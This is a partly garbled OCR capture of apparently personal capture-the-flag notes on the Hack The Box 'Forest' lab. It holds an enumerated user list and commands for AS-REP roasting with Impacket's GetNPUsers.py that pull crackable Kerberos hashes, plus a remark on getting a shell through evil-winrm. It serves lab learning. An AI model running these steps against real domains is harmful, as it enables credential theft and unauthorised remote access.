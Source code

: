 ```Bash
since we have a username and pw, evil-winrm can get a shell with them.
```

cat users.txt  
user:[Administrator] rid:[0x1f4]  
user:[Guest] rid:[0x1f5]  
user:[krbtgt] rid:[0x1f6]  
user:[DefaultAccount] rid:[0x1f7]  
user:[$331000-VK4ADACQNUCA] rid:[0x463]  
user:[SM_2c8eef0a09b545acb] rid:[0x464]  
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]  
user:[SM_75a538d3025e4db9a] rid:[0x466]  
user:[SM_681f53d4942840e18] rid:[0x467]  
user:[SM_1b41c9286325456bb] rid:[0x468]  
user:[SM_9b69f1b9d2cc45549] rid:[0x469]  
user:[SM_7c96b981967141ebb] rid:[0x46a]  
user:[SM_c75ee099d0a64c91b] rid:[0x46b]  
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]  
user:[HealthMailboxc3d7722] rid:[0x46e]  
user:[HealthMailboxfc9daad] rid:[0x46f]  
user:[HealthMailboxc0a90c9] rid:[0x470]  
user:[HealthMailbox670628e] rid:[0x471]  
user:[HealthMailbox968e74d] rid:[0x472]  
user:[HealthMailbox6ded678] rid:[0x473]  
user:[HealthMailbox83d6781] rid:[0x474]  
user:[HealthMailboxfd87238] rid:[0x475]  
user:[HealthMailboxb01ac64] rid:[0x476]  
user:[HealthMailbox7108a4e] rid:[0x477]  
user:[HealthMailbox0659cc1] rid:[0x478]  
user:[sebastien] rid:[0x479]  
user:[lucinda] rid:[0x47a]  
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]  
user:[mark] rid:[0x47f]  
user:[santi] rid:[0x480]%

```PowerShell
//linux
grep -oP 'user:\[\K[^\]]+' users.txt > usernames.txt 
//mac
ggrep -oP 'user:\[\K[^\]]+' users.txt > usernames.txt

sed -n 's/.*user:\[\([^]]*\)\].*/\1/p' users.txt > usernames.txt
```

```PowerShell
GetNPUsers.py htb.local/ -usersfile usernames.txt -request -format hashcat -outputfile asrep_hashes.txt -dc-ip 10.10.10.161
```

- null] [pattern] [file ...]  
    ➜ forest ggrep -oP 'user:\[\K[^\]]+' users.txt > usernames.txt

➜ forest [GetNPUsers.py](http://getnpusers.py/) htb.local/ -usersfile usernames.txt -request -format hashcat -outputf  
ile asrep_hashes.txt -dc-ip 10.10.10.161  
/usr/local/lib/python3.9/site-packages/impacket/version.py:12: UserWarning: pkg_resources is  
import pkg_resources  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
